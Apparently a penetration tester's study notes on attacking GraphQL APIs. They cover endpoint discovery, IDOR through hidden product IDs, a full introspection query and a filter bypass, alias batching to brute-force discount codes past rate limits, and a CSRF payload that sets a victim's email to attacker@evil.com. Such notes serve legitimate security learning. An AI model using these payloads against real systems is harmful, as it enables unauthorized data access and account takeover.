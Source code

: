 # Test for graphql endpoints
Universal query
```graphql
query{__typename}
```
always returns
```json
{"data": {"__typename": "query"}}
```

Common endpoint names:
* /graphql
* /api
* /api/graphql
* /graphql/api
* /graphql/graphql
If these common endpoints don't return a GraphQL response, you could also try appending /v1 to the path. 

request methods
Common is `POST` with `application/json`, but it can variate.

#  Exploiting unsanitized arguments
For example:
```graphql
query {
	products {
		id
		name
		listed
	}
}
```
   returns
```graphql
    {
        "data": {
            "products": [
                {
                    "id": 1,
					...
                },
                {
                    "id": 2,
					...
                },
                {
                    "id": 4,
					...
                }
            ]
        }
    }
```        
so we can try to access the third product: [[IDOR]]
```graphql
query {
	product(id: 3) {
		id
		name
		listed
	}
}
```    
#  Discovering schema information
### Introspection 
###### Burp Suite:
`GraphQL > Set introspection query`
##### Request example
```graphql
{
	"query": "{__schema{queryType{name}}}"
}
```
returns list of available query names
###### Full introspection query:
```graphql
query IntrospectionQuery {
	__schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
######  Visualizing introspection results 
 http://nathanrandal.com/graphql-visualizer/
### Suggestions
Used when instrospection is disabled.
Suggestions are messages like this:
`There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
Can be automated with https://github.com/nikitastupin/clairvoyance or Burp scanner.

###  Bypassing GraphQL introspection defenses 
`__schema` can be disabled using regex by developers.
```graphql
{
	"query": "query{__schema
	{queryType{name}}}"
}
```
Also try a `GET` request, or a `POST` request with a content-type of `x-www-form-urlencoded`.

# Bypassing rate limiting using aliases
#rate-limiting [[Brute Force]] #auth 
Aliases allows to make several queries inside one HTTP request.
It can be used for brute-force. Example:
```graphql
query isValidDiscount() {
	isvalidDiscount(code: 1){
		valid
	}
	isValidDiscount2:isValidDiscount(code: 2){
		valid
	}
	isValidDiscount3:isValidDiscount(code: 3){
		valid
	}
}
```

# Graphql [[CSRF]]
Possible if graphql endpoint doesn't validate `Content-Type` and `x-www-form-urlencoded` works.
Example:
```
query=mutation changeEmail($input: ChangeEmailInput!) {changeEmail(input: $input) {email}}&variables={"input":{"email":"attacker@evil.com"}}
```


